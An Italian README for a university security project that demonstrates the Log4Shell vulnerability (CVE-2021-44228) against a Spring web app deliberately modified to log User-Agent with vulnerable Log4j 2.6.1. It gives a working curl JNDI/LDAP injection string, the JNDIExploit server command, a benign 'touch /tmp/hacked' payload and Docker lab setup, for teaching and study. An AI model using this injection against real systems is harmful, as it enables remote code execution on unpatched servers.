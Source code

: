 # Progetto sicurezza Informatica ICDA A.A 2021-2022

Lo scopo di questo progetto è quello di mostrare la vulnerabilità Log4shell CVE-2021-44228 che affligge la libreria Java Log4j , impiegata da innumerevoli software di ogni tipo (programmi standard, giochi, webapp).

In questo progetto è stata scelta una webapp realizzata con il popolare web framework Java MVC, opportunamente modificata per lo scopo.

La parte da me modificata si trova nel controller "HomeController", file "src\main\java\com\nico\store\store\controller\HomeController.java".
Nel controller è stata istanziata la classe Logger, ed è stata aggiunta (mediante annotazione) l'istruzione per ricavare l'header della richiesta "User-Agent" e passarla al controller. All'interno del controller, si è usata l'istanza del Logger per loggare la User-Agent. Ne consegue quindi, che se un client invia una  richiesta, sfruttando la Java API JNDI (Java Naming and Directory Interface) al server LDAP con l'header opportunamente modificato (nel nostro caso la user-agent, ma avrei potuto sceglierne un altro volendo), contenente l'istruzione per il download di una classe Java dal server LDAP, verrà eseguito il codice contenuto nella classe.

La libreria impiegata di log4J 2.6.1.
Nel progetto è presente il file pom.xml per la compilazione tramite Maven.
Ho creato un DockerFile che contiene al suo interno tutto il necessario per avviare l'immagine senza alcuna configurazione e senza installare la JDK necessaria per dimostrare l'exploit.

## Utilizzo
Prima di tutto sarà necessario avviare un server mysql e impostare il relativo indirizzo, username e password nel file "application.properties", all'interno della cartella "resources". è possibile utilizzare un container docker allo scopo.

Successivamente sarà necessario avviare il server LDAP che servirà la classe Java con il Payload.


```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i tuo-indirizzo-ip-privato -p 8888
```



Per sfruttare la vulnerabilità è necessario  creare un payload (un comando che si vuole far eseguire al server remoto). Esempio:

```bash
touch /tmp/hacked
```

e includerlo (codificato in base64) in una richiesta da inviare al server della webApp. Si userà il comando Curl per lo scopo.

Una volta inviato il comando, il metodo della libreria Log4j invocato nel controller, interpreterà il comando, sarà scaricata ed eseguita  una classe Java dal server LDAP (controllato dall'attaccante)  e successivamente avverrà l'esecuzuzione del payload, contenuto all'interno della classe Java scaricata nel passo precedente. Esempio di comando valido:

```bash
curl -A '${jndi:ldap://192.168.10.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}' http://172.18.0.2:8080
```
Per codificare in base64 il payload ci si può servire del tool disponibile qui: https://gchq.github.io/CyberChef/

Ovviamente il server della WebApp deve essere avviato prima di inviare la richiesta curl.

## Avvio web-app

Se si desidera utilizzare il container docker (consigliato), si deve prima di tutto clonare questo repo con:
```bash
git clone https://github.com/andree93/sicurezza-spring-webapp-log4j.git
```

Posizionarsi nella directory principale della webApp e creare l'immagine docker con il Dockerfile presente su questo repo:
```bash
docker build --tag nomeContainer .
```

Crea il volume docker con il file di configurazione:
```bash
docker volume create nomeVolume
```

e dopo andare nella directory dei dati del volume appena creato e copiare il file di configurazione  "application.properties"  che si trova nella directory "config" (potrebbero essere necessari i privilegi di root):
```bash
cp application.properties /var/lib/docker/volumes/nomeVolume/_data
```

Avviare il container:

```bash
docker run --name nomeContainer -p 8080:8080 --network nomeRete -v nomeVolumeDocker:/config nomeImmagineDocker
```

Oppure è possibile montare direttamente la cartella che contiene il file di configurazione, senza creare il volume docker:

```bash
docker run -it --name nomeContainer -p 8080:8080 --network nomeSottoRete -v /percorso/al/file/config/:/config nomeImmagineDocker
```






Dopo aver inviato la request al server della webApp, come descritto sopra (ad esempio con curl), sarà possibile notare dai log del server LDAP che è stata "servita" la classe Java al server della nostra WebApp, con il payload al suo interno.
A seconda del comando eseguito, è possibile vedere il risultato. Ad esempio, se il payload provoca la creazione di file, è possibile entrare nel container e verificarlo. Ad esempio:


```bash
docker exec -it nomeApplicazione sh
```

```bash
ls /tmp/hacked
```

Ovviamente è possibile sfruttare la vulnerabilità eseguendo la webApp senza docker, ma è necessario che la JDK (o JRE) abbia abilitata l'opzione che consente di eseguire classi scaricate da un server remoto JNDI.
L'immagine docker, ad esempio, è stata creata a partire dalla JDK-8u181, che ha l'opzione abilitata di default.

```bash
com.sun.jndi.ldap.object.trustURLCodebase=true
```

Tuttavia, avere una versione più recente della JDK/JRE non è sufficiente per mettersi completamente al riparo dalla vulnerabilità.


```

## Contributing
La webApp impiegata in questo progetto è stata creata dall'autore GNico (github: https://github.com/GNico/spring-eshop )


Il server JNDI/LDAP è stato creato da feihong-cs.


La libreria Log4J è di Apache Software foundation https://logging.apache.org/log4j/2.x/index.html

Integrazione libreria Log4J nella webApp e containerizzazione: Andrea Carro



## License
[MIT](https://choosealicense.com/licenses/mit/)
